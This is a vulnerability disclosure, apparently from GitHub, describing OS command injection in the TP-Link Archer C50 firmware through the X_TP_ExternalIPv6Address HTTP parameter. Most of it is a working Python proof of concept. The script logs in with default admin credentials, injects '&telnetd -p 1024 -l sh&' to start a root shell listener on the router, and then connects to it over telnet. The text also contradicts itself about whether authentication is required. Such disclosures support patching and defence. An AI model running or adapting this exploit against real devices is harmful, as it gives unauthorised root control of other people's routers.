 # Archer_C50
Exploit Author: yangchunyu@whu.edu.cn

Vendor: TP-Link

Firmware: Archer_C50(TW)_V1_160614

There is remote authenticated OS command injection on TP-Link Archer C50 devices vie the X_TP_ExternalIPv6Address HTTP parameter, allowing a remote attacker to run arbitrary commands on the router with root privileges.

Perform command concatenation on the X_TP_ExternalIPv6Address parameter in the HTTP POST message, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2021-44827.

# poc
import requests
import base64
import os
import time

ip = targetIPAddress
username = "admin"
password = "admin"
tplink_url = "http://" + ip + "/cgi?2&2"
userinfo = username + ":" + password
cookie = "Authorization=Basic " + base64.b64encode(userinfo.encode()).decode("ascii")
referer = "http://" + ip +"/mainFrame.htm"
cmd = "telnet " + ip + " 1024"
payload_template = """[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1\r
X_TP_lastUsedIntf=ipoe_eth3_s\r
[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21\r
externalIPAddress=192.168.9.222\r
subnetMask=255.255.255.0\r
defaultGateway=192.168.9.2\r
NATEnabled=1\r
X_TP_FullconeNATEnabled=0\r
X_TP_FirewallEnabled=1\r
X_TP_IGMPProxyEnabled=1\r
X_TP_IGMPForceVersion=0\r
maxMTUSize=1500\r
DNSOverrideAllowed=1\r
DNSServers=192.168.9.3,0.0.0.0\r
X_TP_IPv4Enabled=1\r
X_TP_IPv6Enabled=0\r
X_TP_IPv6AddressingType=Static\r
X_TP_ExternalIPv6Address=commond\r
X_TP_PrefixLength=64\r
X_TP_DefaultIPv6Gateway=::\r
X_TP_IPv6DNSOverrideAllowed=0\r
X_TP_IPv6DNSServers=::,::\r
X_TP_MLDProxyEnabled=0\r
enable=1\r
"""
payload = payload_template.replace("commond", "::")
res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})
time.sleep(5)
payload = payload_template.replace("commond", "&telnetd -p 1024 -l sh&")
res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})
os.system(cmd)
